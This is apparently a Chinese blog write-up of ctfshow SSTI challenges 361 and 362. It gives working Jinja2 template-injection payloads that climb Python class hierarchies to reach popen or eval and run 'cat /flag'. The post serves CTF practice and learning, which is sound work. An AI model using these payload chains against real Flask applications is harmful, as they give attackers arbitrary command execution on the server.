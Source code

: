 ```yaml
---
title: ctfshow-ssti
date: 2021-08-11 13:33:33
author: Na0H
headimg: /img/atimg/ssti.png
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow ssti
description:  ctfshow ssti

---
```




对ssti一直是粗略的了解，这里做点题巩固一下

> 简单来说，SSTI 的最终目的是能够逃逸出 Jinja2的沙盒，然后执行任意的python代码。如果能够获取到 builitins 也就能得到了 python 的内建对象，也就可以调用 python 的任意内建函数了

在此之前可以看一下：
[总结 - ctf中flask的ssti(一) - Morouu的大狗窝 ●'◡'● (morblog.cc)](https://morblog.cc/posts/2946623354/)

## 361

无过滤

```jinja2
?name={{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

## 362

上题的方法用不了了，`{{''.__class__.__mro__[1].__subclasses__()[132]}}`，过滤了os._wrap_close

```
可以用{%%}来进行遍历和条件判断，让它指向os._wrap_close
```

```jinja2
{% for i in ''.__class__.__mro__[1].__subclasses__() %}
	{% if i.__name__=='_wrap_close' %}
		{% print i.__init__.__globals__['popen']('cat /flag').read() %}
	{% endif %}
{% endfor %}
```

或者是利用已有函数找到`__builtins__`，然后直接直接从 `__builtins__ `的内置对象中取内置的` eval 函数`

```jinja2
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}

{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```
